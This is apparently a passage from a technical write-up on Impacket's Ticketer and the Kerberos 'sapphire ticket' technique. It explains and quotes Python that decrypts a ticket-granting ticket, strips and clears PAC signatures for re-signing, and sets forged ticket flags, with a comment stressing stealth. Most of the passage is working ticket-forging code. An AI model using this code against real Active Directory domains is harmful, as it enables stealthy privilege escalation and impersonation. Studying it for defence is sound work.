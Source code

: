 And that PAC of the TGT we already have is (almost) changed like always in *Ticketer* with the new PAC obtained from S4U2Self+U2U by updating *pacInfos*.

Additionally, some flags are always set: Forwadable, Proxiable, Renewable, Pre-Authent

```python
[...]
            # 2. extract PAC
            logging.info('\tDecrypting ticket & extracting PAC')
            decodedTicket = decoder.decode(tgs, asn1Spec=TGS_REP())[0]
            cipherText = decodedTicket['ticket']['enc-part']['cipher']
            newCipher = _enctype_table[int(decodedTicket['ticket']['enc-part']['etype'])]
            plainText = newCipher.decrypt(self.__tgt_session_key, 2, cipherText)
            encTicketPart = decoder.decode(plainText, asn1Spec=EncTicketPart())[0]

            # Let's extend the ticket's validity a lil bit
            # I don't think this part should be left in the code. The whole point of doing a sapphire ticket is stealth, extending ticket duration is not the way to go
            # encTicketPart['endtime'] = KerberosTime.to_asn1(ticketDuration)
            # encTicketPart['renew-till'] = KerberosTime.to_asn1(ticketDuration)

            # Opening PAC
            adIfRelevant = decoder.decode(encTicketPart['authorization-data'][0]['ad-data'], asn1Spec=AD_IF_RELEVANT())[0]
            pacType = pac.PACTYPE(adIfRelevant[0]['ad-data'].asOctets())
            pacInfos = dict()
            buff = pacType['Buffers']

            # clearing the signatures so that we can sign&encrypt later on
            logging.info("\tClearing signatures")
            for bufferN in range(pacType['cBuffers']):
                infoBuffer = pac.PAC_INFO_BUFFER(buff)
                data = pacType['Buffers'][infoBuffer['Offset'] - 8:][:infoBuffer['cbBufferSize']]
                buff = buff[len(infoBuffer):]
                if infoBuffer['ulType'] in [PAC_SERVER_CHECKSUM, PAC_PRIVSVR_CHECKSUM]:
                    checksum = PAC_SIGNATURE_DATA(data)
                    if checksum['SignatureType'] == ChecksumTypes.hmac_sha1_96_aes256.value:
                        checksum['Signature'] = '\x00' * 12
                    elif checksum['SignatureType'] == ChecksumTypes.hmac_sha1_96_aes128.value:
                        checksum['Signature'] = '\x00' * 12
                    else:
                        checksum['Signature'] = '\x00' * 16
                    pacInfos[infoBuffer['ulType']] = checksum.getData()
                else:
                    pacInfos[infoBuffer['ulType']] = data
[...]
newFlags = [TicketFlags.forwardable.value, TicketFlags.proxiable.value, TicketFlags.renewable.value, TicketFlags.pre_authent.value]
[...]
else:
            encTicketPart = EncTicketPart()

            flags = list()
            flags.append(TicketFlags.forwardable.value)
            flags.append(TicketFlags.proxiable.value)
            flags.append(TicketFlags.renewable.value)
            if self.__domain == self.__server:
                flags.append(TicketFlags.initial.value)
            flags.append(TicketFlags.pre_authent.value)
            encTicketPart['flags'] = encodeFlags(flags)
            encTicketPart['key'] = noValue
            encTicketPart['key']['keytype'] = kdcRep['ticket']['enc-part']['etype']

            if encTicketPart['key']['keytype'] == EncryptionTypes.aes128_cts_hmac_sha1_96.value:
```